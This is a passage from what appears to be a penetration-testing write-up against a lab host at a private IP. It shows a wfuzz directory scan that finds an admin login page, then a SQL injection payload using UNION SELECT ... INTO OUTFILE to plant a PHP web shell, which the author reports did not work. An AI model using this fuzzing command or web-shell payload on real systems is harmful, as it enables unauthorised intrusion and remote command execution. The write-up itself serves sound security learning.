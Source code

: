 Unfortunately, the password was hashed with bcrypt, and brute-forcing it didn’t work.

### Finding the Admin Panel

Even without the password, I tried locating the admin panel in case I could do something useful with a valid username later on.

```bash
wfuzz -c -z file,raft-large-directories-lowercase.txt 
--hc 404 http://172.16.11.54/FUZZ
```

Among the responses, I found `/admin`:

```bash
000000003:   301    "admin"
```

Accessing `http://172.16.11.54/admin`, I got the login page.

![image.png](images/sql-injection-to-reverse-shell-and-root-access/login-page.png)

### Creating a web shell

Since I couldn't log in, I tried to escalate via the SQLi vulnerability. I attempted to write a PHP web shell like this:

```sql
' UNION SELECT 1, 2, 3, 4, 5, 6, "<?php 
	system($_GET[\"cmd\"]);
?>" INTO OUTFILE "/var/www/html/shell.php"; -- -
```

… but nothing happened. No shell. Probably lacked write permissions to the root web directory.
